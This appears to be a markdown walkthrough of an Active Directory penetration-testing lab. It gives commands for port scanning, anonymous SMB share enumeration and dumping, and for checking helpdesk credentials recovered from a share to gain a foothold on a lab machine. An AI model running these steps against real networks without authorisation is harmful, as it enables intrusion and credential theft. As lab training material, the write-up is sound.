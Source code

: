 ### Ports Scanning
```sh
rustscan -a 192.168.52.130,192.168.52.131,192.168.52.132
```
![dcports](assets/dcports.png)<br>

```sh
cat ports.txt | cut -d '/' -f 1 | tr '\n' ','
```
![dcports](assets/dcports2.png)<br>

```sh
nmap -p<seqence_of_ports> -sC -sV -v -oN dc.full 192.168.52.130
```

### Smb Enumeration
```sh
python3 smbsharesdumper.py -d corp.local  -u anonymous -p '' --host 192.168.52.130 --list-shares --debug

nxc smb 192.168.52.130 -u anonymous -p '' --shares

smbclient -L 192.168.52.130 -N
```
![alt text](assets/shares_enum0.png)<br>
![alt text](assets/shares_enum1.png)<br>
![alt text](assets/shares_enum2.png)<br>

```sh
python3 smbsharesdumper.py -d corp.local  -u anonymous -p '' --host 192.168.52.130    --dump --destination output

smbclient \\\\192.168.52.130\\Helpdesk -U anonymous
```
![alt text](assets/shares_dump1.png)<br>
![alt text](assets/shares_dump2.png)<br>

```
user: helpdesk
pass: YourS3cret
```
### Creds Verification
```sh
nxc smb 192.168.52.130 -u helpdesk -p YourS3cret
```
![alt text](assets/foothold.png)

### Note:
```
Members of helpdesks group (helpdesk) are local administrators on pc01. So this machine can be used as foothold on the taget active directory environement. 

With that being said future attacks an enumeration can be preformed form pc01 or from kali or even the host machine (Domain Non Joined Machine).
```
